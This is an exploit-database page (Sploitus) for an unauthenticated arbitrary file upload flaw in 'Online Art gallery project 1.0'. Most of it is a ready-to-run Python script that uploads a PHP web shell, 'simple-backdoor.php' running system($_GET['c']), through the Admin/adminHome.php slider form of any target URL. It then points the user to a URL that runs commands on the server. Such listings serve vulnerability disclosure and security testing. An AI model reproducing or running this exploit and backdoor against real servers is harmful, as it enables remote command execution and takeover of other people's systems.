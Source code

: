 ```yaml
---
title: Online Art gallery project 1.0 - Arbitrary File Upload (Unauthenticated) Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38794&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-18
fetch_date: 2025-10-04T11:45:07.190162
---
```


# Online Art gallery project 1.0 - Arbitrary File Upload (Unauthenticated) Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Online Art gallery project 1.0 - Arbitrary File Upload (Unauthenticated) Exploit

2023-06-17 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38794
# Exploit Title: Online Art gallery project 1.0 - Arbitrary File Upload (Unauthenticated)
# Google Dork: n/a
# Exploit Author: Ramil Mustafayev
# Vendor Homepage: https://github.com/projectworldsofficial
# Software Link: https://github.com/projectworlds32/Art-Gallary-php/archive/master.zip
# Version: 1.0
# Tested on: Windows 10, XAMPP for Windows 8.0.28 / PHP 8.0.28
# CVE : n/a

# Vulnerability Description:
#
# Online Art Gallery Project 1.0 allows unauthenticated users to perform arbitrary file uploads via the adminHome.php page. Due to the absence of an authentication mechanism and inadequate file validation, attackers can upload malicious files, potentially leading to remote code execution and unauthorized access to the server.
# Usage: python exploit.py http://example.com

import requests
import sys

def upload_file(url, filename, file_content):
    files = {
        'sliderpic': (filename, file_content, 'application/octet-stream')
    }

    data = {
        'img_id': '',
        'sliderPicSubmit': ''
    }
    url = url+"/Admin/adminHome.php"
    try:
        response = requests.post(url, files=files, data=data)
    except:
        print("[!] Exploit failed!")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python exploit.py <target_url>")
        sys.exit(1)

    target_url = sys.argv[1]
    file_name = "simple-backdoor.php"
    file_content = '<?php system($_GET["c"]);?>'

    upload_file(target_url, file_name, file_content)
    print("[+] The simple-backdoor has been uploaded.\n Check following URL: "+target_url+"/images/Slider"+file_name+"?c=whoami")
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)